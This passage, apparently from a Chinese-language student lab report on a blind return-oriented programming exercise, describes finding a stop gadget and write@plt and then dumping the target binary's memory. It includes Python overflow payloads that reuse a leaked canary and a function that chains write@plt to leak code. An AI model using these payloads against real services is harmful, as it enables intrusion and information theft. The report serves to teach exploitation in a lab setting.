 <img src="report.assets/image-20210408222917568.png" alt="image-20210408222917568" style="zoom:50%;" />

所以，这一阶段的任务就是寻找stop gadget与write的plt（事实上，stop gadget也并非必须，但手册上说强烈建议扫描0x80486a0-0x80489a0范围内的地址，会有很多奇怪的输出，因此还是很有必要去看一下到底会有什么输出）

- 寻找stop gadget

  ​		按照stop gadget的定义，是指程序跳转到该gadget后，连接不会中断，即子进程不会crash。所以我们设计如下payload，若最后接受的输出仍为子进程所触发，那么我们就找到了stop gadget

  ```python
  	payload  = 'A' * buf_size
      paylaod += canary
      payload += p64(0xdeadbeef)
      payload += p32(0xdeadbeef)
      payload += p32(addr)        # address of the gadgets
  ```

  本来还以为在找到了stop gadget后，我们还需要如我之前说的那样，重新扫描一边地址去找write@plt，结果在输出里直接给出了，省了不少事（怪不得**强烈建议**...

- 输出binary文件

  在获得了write函数plt后，我们就可以通过buffer overflow向其传递参数，输出0x8048000开始的0x1000字节的内容，具体函数如下：

  ```python
  def dump_memory(buf_size, canary, stop_addr, write_plt, start_addr, size):
      result = ""
      #print(result.encode('hex'))
      sleep(0.1)
      payload = 'A'*buf_size
      payload += canary
      payload += p64(0xdeadbeef)
      payload += p32(0xdead)
      payload += p32(write_plt)
      payload += p32(stop_addr)
      payload += p32(0x1)
      payload += p32(start_addr)
      payload += p32(size)
  ```